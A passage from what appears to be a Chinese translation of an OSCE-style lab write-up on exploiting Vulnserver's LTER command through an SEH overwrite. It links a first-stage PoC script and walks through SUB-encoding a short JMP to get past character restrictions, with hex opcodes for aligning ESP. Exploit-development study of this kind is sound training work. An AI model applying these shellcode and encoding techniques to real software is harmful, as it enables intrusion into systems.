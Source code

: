![](img/a9a7bbb29415290eb2adbf56640bcead.png)

在条件跳转之后

*   更新了第一阶段外壳代码 PoC 脚本:[第一阶段 _lter.py](https://github.com/bigb0sss/OSCE/blob/master/vulnserver/LTER%20-%20SEH%20Overwrite/1st-stage_lter.py)

## #2 阶段外壳代码—编码的短 JMP

由于我们只有 50 字节的缓冲区，我们很可能引入另一个跳转指令来将指针重新定位到一个更大的区域。但是我们仍然受到字符集的限制，我们需要先做一个短的 JMP ( `\xEB\x80`)，然后可能做一个长的 JMP。

我们将使用**子编码**来规避字符限制。首先，我们需要调整当前的`ESP`寄存器，指向我们编码的外壳代码将被解码的地方。

```
**### ESP Alignment (Short JMP)**\x54             # PUSH ESP 
\x58             # POP EAX
\x66\x05\x59\x13 # ADD AX,0x1359 (*018BFFFD — 016EECA4 = 0x1359*)
\x50             # PUSH EAX
\x5C             # POP ESP
```

你可能想知道为什么我们要把`0x1359`加到`AX`上，因为我们当前的`ESP`等于`0x18BFFFD`，我们想把我们的`ESP`从最后一个“C”(`\x43`)向上对齐 2 个字节，这样我们就可以把解码后的短 JMP ( `\xEB\x80`)放在那里。
